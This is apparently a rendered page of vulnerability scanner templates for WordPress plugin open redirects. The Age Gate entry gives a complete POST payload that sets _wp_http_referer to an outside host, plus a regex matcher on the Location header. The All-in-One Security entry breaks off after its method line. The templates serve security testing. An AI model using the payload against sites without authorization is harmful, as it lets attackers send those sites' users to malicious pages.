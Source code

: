 ## Description

- WordPress Age Gate plugin before 2.13.5 contains an open redirect vulnerability via the \_wp_http_referer parameter after certain actions and after invalid or missing nonces. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.
- severity - low
- tags - agegate,unauth,wpscan,packetstorm,wp-plugin,redirect,wordpress,wp

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/wp-admin/admin-post.php
  - age_gate%5Bd%5D=10&age_gate%5Bm%5D=10&age_gate%5By%5D=1990&age_gate%5Bremember%5D=1&age_gate%5Bage%5D=TVRnPQ%3D%3D&action=age_gate_submit&age_gate%5Bnonce%5D=48f2b89fed&\_wp_http_referer=https://interact.sh

### Matchers

**Type - regex**

- part - header
- regex
  1. (?m)^(?:Location\s*?:\s*?)(?:https?:\/\/|\/\/|\/\\\\|\/\\)?(?:[a-zA-Z0-9\-_\.@]_)interact\.sh\/?(\/|[^.]._)?$

---

# WordPress All-in-One Security \<=4.4.1 - Open Redirect

## Description

- WordPress All-in-One Security plugin through 4.4.1 contains an open redirect vulnerability which can expose the actual URL of the hidden login page feature. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.

- severity - low
- tags - wp-plugin,redirect,wordpress,wp,wpscan

## Requests

- Method - GET

### URL
